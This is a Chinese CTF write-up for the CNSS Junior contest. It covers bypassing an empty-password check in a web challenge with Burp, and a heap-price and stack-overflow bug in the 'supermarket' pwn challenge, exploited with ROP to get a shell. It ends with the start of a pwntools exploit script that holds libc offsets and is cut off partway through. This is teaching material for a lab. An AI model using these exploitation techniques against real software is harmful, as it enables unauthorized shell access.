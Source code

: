 # CNSS_Junior_wp
## Web
### easyweb
非预期，admin空密码getflag,注意js限制了空密码，burp改包即可

## pwn
### supermarket
- 第一个点是add a commodity函数中当price为0的时候，原有price不会被清空，利用这一点可以先申请一个很大的description空间，然后便可以控制接下来申请的内存中的price的内容。
- 第二个点是show list函数中的s[768]数组作为输出缓冲区存在溢出（因为第一点中的price可以任意控制），便可以覆盖返回地址，适当控制长度便可以覆盖返回地址，因为首先会覆盖输出商品循环的i，所以在覆盖返回地址的前一刻把i覆盖成-1，便可以写入存在第一个商品信息中的rop，getshell
- exp

```
#!/usr/bin/env python2
# -*- coding: utf-8 -*- #
from pwn import *
ip = '117.78.40.45'
port = 32755
MODE = 1
VERBOSE = 1
printf_offset = 0x00049020
system_offset = 0x0003A940
binsh_offset = 0x0015902B

def add_function(p, name, price, descrip_size, descrip):
    p.recvuntil('your choice>> ')
    p.sendline('1')
    p.recvuntil('name:')
    p.send(name)
    p.recvuntil('price:')
    p.sendline(str(price))
    p.recvuntil('descrip_size:')
    p.sendline(str(descrip_size))
    p.recvuntil('description:')
    p.send(descrip)

def delete_function(p, name):
    p.recvuntil('your choice>> ')
    p.sendline('2')
    p.recvuntil('name:')
    p.send(name)

def show_list(p):
    p.recvuntil('your choice>> ')
    p.sendline('3')

def crack(ip='', port=0):
    if VERBOSE:
        context.log_level = 'debug'

    if MODE == 0:
        if DEBUG:
            p = gdb.debug((p_NAME, ), gdbscript=gdbscript, env=env)
            raw_input('')
        else:
            p = process((p_NAME, ), env=env)
            sol = ''
    else:
```